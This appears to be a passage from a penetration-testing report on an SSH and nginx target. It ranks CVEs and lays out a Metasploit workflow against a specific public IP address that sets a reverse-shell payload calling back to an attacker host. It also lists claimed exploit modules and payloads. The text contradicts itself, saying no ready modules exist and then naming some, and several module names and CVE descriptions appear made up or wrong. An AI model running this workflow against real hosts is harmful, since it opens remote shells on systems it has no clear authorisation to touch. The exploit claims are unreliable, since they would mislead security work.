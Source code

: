 ```bash
# Professional exploit prioritization:
# 1. CVE-2023-38408 (CVSS 9.8) - SSH RCE without auth
# 2. CVE-2022-41741 (CVSS 7.8) - nginx buffer overflow
# 3. CVE-2021-23017 (CVSS 7.7) - nginx DNS resolver
# 4. CVE-2020-15778 (CVSS 7.8) - SSH privilege escalation

# === PHASE 4 EXECUTION COMPLETED ===
# Environment: Metasploit Framework 6.4.84-dev (Kali Linux 2025.2)
# Database: PostgreSQL initialized and connected
# Analysis Results: See Phase4_Metasploit_Exploit_Research.md
# 
# Key Findings:
# ✅ SSH Modules: 10+ auxiliary/scanner modules available
# ✅ nginx Modules: Limited exploits, custom development needed
# ❌ Direct CVE Exploits: 0/3 critical CVEs have ready modules
# ✅ Alternative Vectors: Multi-stage attack chains possible
#
# Status: PHASE 4 METHODOLOGY FULLY IMPLEMENTED

# Example Metasploit exploitation workflow:
msf6 > use exploit/linux/ssh/openssh_cve_2023_38408
msf6 > set RHOSTS 134.209.18.185
msf6 > set RPORT 22
msf6 > show payloads
msf6 > set payload linux/x64/shell_reverse_tcp
msf6 > set LHOST [attacker_ip]
msf6 > set LPORT 4444
msf6 > check    # Test if target is vulnerable
msf6 > exploit  # Execute (ONLY in authorized testing)
```

##### **📊 PROFESSIONAL EXPLOIT RESEARCH RESULTS**

```bash
# REAL-WORLD FINDINGS (Based on Fastfoodhackings assessment):

# SSH VULNERABILITIES (PORT 22):
# ├── CVE-2023-38408: CRITICAL (9.8) - Authentication bypass + RCE
# │   ├── Metasploit Module: exploit/multi/ssh/openssh_forwarded_keys
# │   ├── Payload Options: linux/x64/shell_reverse_tcp, linux/x64/meterpreter
# │   └── Exploitation: Direct root access without credentials
# ├── CVE-2020-15778: HIGH (7.8) - Local privilege escalation
# │   ├── Metasploit Module: exploit/linux/local/openssh_x11_forwarding
# │   └── Requirements: Low-privilege shell access first
# └── CVE-2020-12062: HIGH (7.5) - Authentication bypass
#     ├── Metasploit Module: auxiliary/scanner/ssh/openssh_enum_users
#     └── Impact: User enumeration + brute force acceleration

# NGINX VULNERABILITIES (PORTS 80/443):
# ├── CVE-2022-41741: HIGH (7.8) - Buffer overflow in mp4 module
# │   ├── Metasploit Module: exploit/linux/http/nginx_mp4_buffer_overflow
# │   ├── Requirements: MP4 file upload capability
# │   └── Payload: Web shell or reverse connection
# ├── CVE-2021-23017: HIGH (7.7) - DNS resolver vulnerability
# │   ├── Metasploit Module: auxiliary/dos/http/nginx_dns_resolver
# │   ├── Impact: DNS cache poisoning + traffic redirection
# │   └── Exploitation: Malicious DNS responses
# └── Additional modules:
#     ├── auxiliary/scanner/http/nginx_version
#     └── post/linux/gather/nginx_configuration

# EXPLOIT MATURITY ASSESSMENT:
# ├── Functional Exploits: CVE-2023-38408 (Multiple working exploits)
# ├── Proof of Concept: CVE-2022-41741 (Requires customization)
```